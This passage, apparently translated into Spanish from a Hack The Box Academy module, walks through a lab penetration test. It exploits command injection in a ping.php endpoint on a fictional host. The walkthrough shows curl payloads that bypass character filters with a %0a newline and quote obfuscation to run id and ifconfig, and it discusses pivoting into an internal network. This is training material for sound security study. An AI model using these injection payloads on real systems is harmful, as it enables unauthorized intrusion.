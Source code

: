 ![text](https://academy.hackthebox.com/storage/modules/163/monitoring.png)

Recorremos cada uno de los comandos. Intentar `cat /etc/passwd` no funciona, por lo que parece que estamos realmente en un entorno restringido. `whoami` y `date` nos proporcionan información básica. No queremos reiniciar el objetivo y causar una interrupción del servicio. No podemos cambiar de directorio (`cd`) a otros directorios. Escribir `ls` nos muestra algunos archivos que probablemente estén almacenados en el directorio al que actualmente estamos restringidos.

![text](https://academy.hackthebox.com/storage/modules/163/monitoring_files.png)

Mirando los archivos, encontramos un servicio de autenticación y también que estamos dentro de un contenedor. La última opción en la lista es `connection_test`. Escribir eso da un mensaje de `Success` y nada más. Volviendo a Burp Suite y proxyando la solicitud, vemos que se hace una solicitud `GET` a `/ping.php` para la IP localhost `127.0.0.1`, y la respuesta HTTP muestra un solo ataque ping exitoso. Podemos inferir que el script `/ping.php` está ejecutando un comando del sistema operativo usando una función PHP como `shell_exec(ping -c 1 127.0.0.1)` o quizás similar usando la función [system()](https://www.php.net/manual/en/function.system.php) para ejecutar un comando. Si este script está codificado incorrectamente, podría resultar fácilmente en una vulnerabilidad de inyección de comandos, así que probemos algunas cargas útiles comunes.

Parece haber algún tipo de filtrado en juego porque probar cargas útiles estándar como `GET /ping.php?ip=%127.0.0.1;id` y `GET /ping.php?ip=%127.0.0.1|id` resulta en un error de `Invalid input`, lo que significa que probablemente haya una lista negra de caracteres en juego. Podemos eludir este filtro usando un carácter de nueva línea `%0A` (o carácter de salto de línea) como nuestro operador de inyección siguiendo la metodología discutida en la sección [Bypassing Space Filters](https://academy.hackthebox.com/module/109/section/1036). Podemos hacer una solicitud agregando el carácter de nueva línea como `GET /ping.php?ip=127.0.0.1%0a`, y el ping aún es exitoso, lo que significa que el carácter no está en la lista negra.

Hemos ganado la primera batalla, pero parece que hay otro tipo de filtro en juego, ya que probar algo como `GET /ping.php?ip=127.0.0.1%0aid` aún resulta en un error de `Invalid input`. A continuación, podemos jugar con la sintaxis del comando y ver que podemos eludir el segundo filtro usando comillas simples. Cambiando a `cURL`, podemos ejecutar el comando `id` de la siguiente manera:



```r
curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'd"

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.045 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.045/0.045/0.045/0.000 ms
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

Hemos logrado la ejecución de comandos como el usuario `webdev`. Investigando un poco más, vemos que este host tiene múltiples direcciones IP, una de las cuales lo coloca dentro de la red `172.16.8.0/23` que era parte del alcance inicial. Si podemos obtener acceso estable a este host, podríamos pivotar a la red interna y comenzar a atacar el dominio de Active Directory.



```r
curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'fconfig"

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.048 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.048/0.048/0.048/0.000 ms

<SNIP>

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
```